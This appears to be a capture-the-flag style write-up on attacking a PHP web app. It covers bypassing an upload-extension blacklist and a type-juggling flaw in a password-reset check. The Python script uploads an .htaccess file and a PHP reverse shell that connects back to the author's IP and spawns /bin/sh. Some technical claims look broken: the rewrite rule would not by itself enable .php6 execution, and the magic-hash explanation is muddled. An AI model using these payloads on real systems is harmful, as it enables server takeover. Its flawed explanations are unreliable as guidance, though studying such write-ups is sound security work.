 ```php
```

it attempts to block dangerous file extensions using a blacklist: `restrictedExt`. 

however, the list isn't exhaustive. 

```php
'restrictedExt' => ['php', 'php2', 'php3', 'php4', 'php5', 'phtml', 'exe', 'asp', 'cgi', 'vbs', 'pl', 'com']
```

exploiting this is a three-part process. first, i have to upload the `.htaccess` file. this file contains **Apache rewrite rules** that allow execution of files with a `.php6` extension. this will bypass the restricted file extensions.

next, i'll have to upload a PHP reverse shell `shell.php6`. like the shell in Ren, this will connect back to my machine on a specified IP and port.

finally, i'll have to execute. this will be done by sending a `GET` request to the uploaded shell script `/imports/shell.php`.

```python
# upload .htaccess file to enable execution of PHP files with unusual extensions
session.post(target + '/import', files={'file': ('.htaccess', 'RewriteEngine on\nRewriteRule shell.php shell.php6')})

# upload reverse shell in PHP
session.post(target + '/import', files={'file': ('shell.php6', f'<?php $s=fsockopen("{my_ip}",4444); $p=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s), $pipes); ?>')})

# execute the uploaded reverse shell
session.get(target + '/imports/shell.php')
```

now that i've abused the lax file extension restrictions, i can move on to the next vulnerability. i noticed a flaw in the password reset mechanism: **type juggling**. this allows an attacker to bypass the password reset token check and reset the administrator's password.

```php
public function checkResetLink($userId, $time, $sig) {
    $user = User::find($userId);
    if (empty($user->resetToken)) {
        return false;
    } else {
        return $this->generateSig($user->id, $user->resetToken, $time, $user->password) == $sig;
    }
}

public function generateSig($id, $resetToken, $time, $password) {
    return substr(hash("sha256", $id . "|" . $resetToken . "|" . $time . "|" . $password), 0, 8);
}
```

the reset token is being compared using a weak comparison operator `==`. weak comparison can treat two values as equal if they evaluate to the same number, even when they're strings. hence, i can "force" a comparison to return true by using a **magic hash**. for example, the string `0e123456` is considered `0` when evaluated as a number. if the reset token on the server is also weakly compared and happens to be evaluated as `0`, i can bypass the token check!
